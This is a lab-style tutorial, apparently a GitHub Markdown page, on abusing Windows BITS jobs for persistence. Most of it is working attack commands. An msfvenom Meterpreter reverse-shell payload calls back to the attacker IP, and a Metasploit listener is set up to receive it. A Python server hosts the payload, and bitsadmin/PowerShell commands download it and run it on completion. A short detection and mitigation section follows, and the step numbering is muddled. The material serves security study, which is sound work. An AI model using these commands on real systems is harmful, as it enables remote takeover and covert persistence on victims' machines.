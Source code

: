 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.1.131 (running Metasploit Framework)
- **Victim:** Windows 10: 192.168.1.129 (BITS service enabled)
- **Network Configuration:** Host-only or bridged network mode to allow direct communication

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f exe > /tmp/payload.exe
```
Now, set up a listener in Metasploit:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.131
set LPORT 4444
exploit
```
This will start a reverse shell listener waiting for the victim to execute the malicious file.
#### Step 3: Send Payload through Python HTTP Server
```bash
cd /tmp
python3 -m http.server 8080
```
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
$job = Start-BitsTransfer -Source "http://192.168.1.131:8080/payload.exe" -Destination "C:\Users\Public\payload.exe"
bitsadmin /create /download MaliciousJob
bitsadmin /addfile MaliciousJob "http://attacker-server/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /setnotifycmdline MaliciousJob "C:\Users\Public\payload.exe" ""
bitsadmin /resume MaliciousJob
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---

## 4. Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.131
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.

---

## 5. Detecting and Mitigating BITS Job Abuse

### 5.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 5.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 6. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
